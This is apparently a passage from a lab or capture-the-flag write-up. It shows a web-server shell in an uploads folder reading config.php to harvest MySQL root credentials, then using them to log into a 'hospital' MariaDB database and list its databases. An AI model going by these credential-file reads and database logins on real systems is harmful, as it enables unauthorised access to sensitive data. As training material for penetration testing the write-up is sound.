 ```bash
www-data@webserver:/var/www/html/uploads$ cat ../config.php
cat ../config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

```bash
www-data@webserver:/var/www/html/uploads$ mmysql -u root -p'my$qls3rv1c3!'
mysql -u root -p'my$qls3rv1c3!'
...
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04
...
MariaDB [(none)]> 
```

```bash
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.016 sec)
```

```bash
MariaDB [(none)]> use hospital;
use hospital;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```
